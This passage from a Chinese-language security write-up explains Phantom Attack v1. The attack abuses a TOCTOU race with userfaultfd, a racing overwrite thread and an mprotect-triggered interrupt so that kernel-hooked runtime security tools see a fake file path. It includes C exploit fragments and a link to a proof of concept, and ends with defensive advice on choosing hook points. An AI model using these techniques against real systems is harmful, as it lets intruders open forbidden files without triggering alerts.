 ```c
      uffdio_copy.copy = 0;

      /* 将 Malicious filename 复制到 page 指向内存空间的起始位置 */
      strncpy(page, filename, sizeof(filename));
      flush(page);
      /* 释放互斥锁 */
      sender(); 

      printf("Before ioctl\n");
      if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
        handle_error_en(-1, "ioctl-UFFDIO_COPY");

      printf("        (uffdio_copy.copy returned %lld)\n",
                uffdio_copy.copy);
    ...  
```

我们在 `userfaultfd` 注册相应事件的处理逻辑，在这里主要就关注 UFFD_EVENT_PAGEFAULT. 此时，我们已经“偷偷地”改写了 `filename`，并释放了用于同步 **overwrite thread** 的锁，最终通过 IOCTL 返回到内核执行流。

内核线程从恶意 `filename` 指向的用户内存空间中复制要打开文件的路径数据到内核缓冲区，并以此为参数调用内部处理文件打开的函数，这是 TOU 阶段。

与此同时，在另外一个 CPU Core 上运行着的 **overwrite thread** 正准备向 pageA 中写入合法的路径数据，
```c
  receiver() /* 该线程会在这暂停执行，直到锁释放 */

  asm volatile("mfence");
  // 写入合法的路径数据
  write_char(fakename, sizeof(fakename));
  asm volatile("mfence");
  flush(page);

    /* trigger interrupt */
#ifdef TLBSHOOTDOWN_MPROTECT
  int s = mprotect((void *)page, 4096, PROT_READ | PROT_WRITE | PROT_EXEC);
  if (s != 0) {
    handle_error_en(s, "mprotect");
  }
  return NULL;
#endif 
```

在上述代码中，我们使用了 IPIs 来触发 CPU Core3 上运行着的 **kernel thread**
的中断，这将会为我们的覆写带来充足的时间窗口。

最终，当控制流又重新回到 **kernel thread** 时，Hook 在 `sys_exit` 处的 **tracing program** 读取到被修改后的 `filename`，最终实现 TOCTOU 问题的利用，欺骗 **Runtime Security** 产品，访问规则不允许的文件而不产生告警，相关的 demo 可以在 github 上找到，[链接](https://github.com/rexguowork/phantom-attack/blob/main/phantom_v1/attack_openat.c#L385-L392)放在这儿。

### 🤔进一步研究

在介绍整个 Phantom Attack v1 的过程中，我们不难发现整个攻击链路的关键点在于设计的 **tracing program** 选择了什么函数作为跟踪的 Hook 点 ，若选择的 Hook 点读取的数据来自于用户空间侧，其就存在被篡改的风险，若选择的 Hook 点使用的是已经位于内核侧的数据作为入参，其存在被篡改的可能性就小，**tracing program** 获得到的数据也就更加可信。在内核中有以 security_xxxx 命名的函数，这些函数所处的路径可以认为是安全的，hook 到这些函数的 kprobe 可以信任它们从中获得的数据。
